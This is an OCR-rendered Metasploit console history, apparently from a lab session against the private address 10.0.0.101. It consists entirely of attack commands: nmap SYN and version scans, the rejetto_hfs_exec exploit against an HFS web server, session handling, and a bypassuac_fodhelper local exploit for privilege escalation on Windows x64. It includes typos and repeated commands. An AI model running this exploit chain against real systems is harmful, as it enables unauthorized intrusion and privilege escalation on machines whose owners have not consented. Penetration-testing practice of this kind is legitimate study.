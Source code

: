 ```
run
workspace
workspace -a Bob
workspace Bob 
workspace 
db_nmap -sS -T4 10.0.0.101
db_nmap -sV -T4 10.0.0.101
show services
show service
services
workspace Bob 
search rejetto
info rejetto
use exploit/windows/http/rejetto_hfs_exec 
info
hosts
set RhOST 10.0.0.101
show infor
show info
run
sessions
sessions
sessions
sessions 1
search psexec
search psexec platform:windows
sessions 1
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_fodhelper 
options
set SESSION 1
options
run
sessions
options
set target Windows x64
options
run
sessions 1
db_nmap -sS -T4 10.0.0.101
db_nmap -sV -T4 10.0.0.101
exit
workspace Bob 
hosts
search rejetto
use exploit/windows/http/rejetto_hfs_exec 
show info
hosts
set RhOST 10.0.0.101
```
